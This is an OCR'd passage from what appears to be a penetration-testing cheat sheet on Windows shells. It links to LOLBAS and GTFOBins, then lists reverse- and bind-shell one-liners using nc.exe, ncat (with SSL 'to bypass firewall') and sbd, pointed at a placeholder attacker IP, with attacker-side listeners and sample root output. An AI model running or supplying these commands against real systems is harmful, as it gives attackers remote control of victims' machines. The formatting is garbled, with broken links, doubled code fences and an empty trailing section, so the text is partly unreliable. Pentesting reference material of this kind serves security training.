 # Shells - Windows


## Lolbas

The page [[https://lolbas-project.github.io/) is for Windows like [https://gtfobins.github.io/](https://gtfobins.github.io/|lolbas-project.github.io]] is for linux.\
Obviously, **there aren't SUID files or sudo privileges in Windows**, but it's useful to know **how** some **binaries** can be (ab)used to perform some kind of unexpected actions like **execute arbitrary code.**

## NC

```bash
nc.exe -e cmd.exe <Attacker_IP> <PORT>
```
```
## NCAT

victim

```
ncat.exe <Attacker_IP> <PORT>  -e "cmd.exe /c (cmd.exe  2>&1)"
#Encryption to bypass firewall
ncat.exe <Attacker_IP> <PORT eg.443> --ssl -e "cmd.exe /c (cmd.exe  2>&1)"
```
```
attacker

```
ncat -l <PORT>
#Encryption to bypass firewall
ncat -l <PORT eg.443> --ssl
```
```
## SBD

**[[https://www.kali.org/tools/sbd/|sbd]] is a portable and secure Netcat alternative**. It works on Unix-like systems and Win32. With features like strong encryption, program execution, customizable source ports, and continuous reconnection, sbd provides a versatile solution for TCP/IP communication. For Windows users, the sbd.exe version from the Kali Linux distribution can be used as a reliable replacement for Netcat.

```bash
# Victims machine
sbd -l -p 4444 -e bash -v -n
listening on port 4444

# Atackers
sbd 10.10.10.10 4444
id
uid=0(root) gid=0(root) groups=0(root)
```
```
## Python

```bash
#Windows
```